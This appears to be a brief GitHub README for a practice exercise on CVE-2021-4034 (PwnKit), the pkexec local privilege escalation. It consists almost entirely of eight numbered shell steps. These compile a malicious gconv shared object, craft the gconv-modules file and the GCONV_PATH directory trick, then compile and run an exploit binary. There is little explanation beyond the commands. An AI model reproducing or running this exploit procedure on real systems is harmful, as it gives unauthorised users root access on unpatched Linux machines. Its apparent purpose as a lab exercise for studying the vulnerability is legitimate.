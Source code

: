 # DEV_Practica_CVE_2021_4034

1. gcc -Wall -shared -fPIC -o pwnkit.so pwnkit.c

2. echo "module UTF-8// TRUKITO// pwnkit 1" > gconv-modules

3. mkdir -p GCONV_PATH=.

4. which true (gure kasuan /bin/true)

5. TRUE=/bin/true

6. cp "$TRUE" 'GCONV_PATH=./pwnkit.so:.'

7. gcc -o exploit exploit.c

8. ./exploit
